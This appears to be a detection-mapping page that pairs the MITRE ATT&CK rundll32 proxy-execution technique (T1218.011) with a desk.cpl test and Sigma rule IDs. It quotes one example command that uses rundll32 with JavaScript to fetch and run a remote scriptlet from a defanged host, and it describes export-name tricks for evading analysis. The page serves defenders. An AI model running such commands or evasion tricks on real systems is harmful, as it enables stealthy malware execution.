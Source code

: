 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Binary Proxy Execution: Rundll32 

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) 

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.011


# Test : Rundll32 with desk.cpl
## OS
  - windows


## Description:
Rundll32.exe loading an executable renamed as .scr using desk.cpl 
Reference: 
  - [LOLBAS - Libraries/Desk](https://lolbas-project.github.io/lolbas/Libraries/Desk/)
SIGMA rules:
  - [SCR File Write Event](https://github.com/SigmaHQ/sigma/blob/b53f08b081e0a50099be9b9e8eced82097fdbaf2/rules/windows/file_event/file_event_win_new_src_file.yml)
  - [Rundll32 InstallScreenSaver Execution](https://github.com/SigmaHQ/sigma/blob/b53f08b081e0a50099be9b9e8eced82097fdbaf2/rules/windows/process_creation/proc_creation_win_lolbin_rundll32_installscreensaver.yml)


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_susp_copy_system32.yml (id: fff9d2b7-e11c-4a69-93d3-40ef66189767)

 - proc_creation_win_susp_calc.yml (id: 737e618a-a410-49b5-bec3-9e55ff7fbc15)

 - file_event_win_new_src_file.yml (id: c048f047-7e2a-4888-b302-55f509d4a91d)

 - file_event_win_creation_scr_binary_file.yml (id: 97aa2e88-555c-450d-85a6-229bcd87efb8)

 - proc_creation_win_lolbin_rundll32_installscreensaver.yml (id: 15bd98ea-55f4-4d37-b09a-e7caa0fa2221)

 - proc_creation_win_rundll32_executable_invalid_extension.yml (id: c3a99af4-35a9-4668-879e-c09aeb4f2bdf)



[back](../index.md)
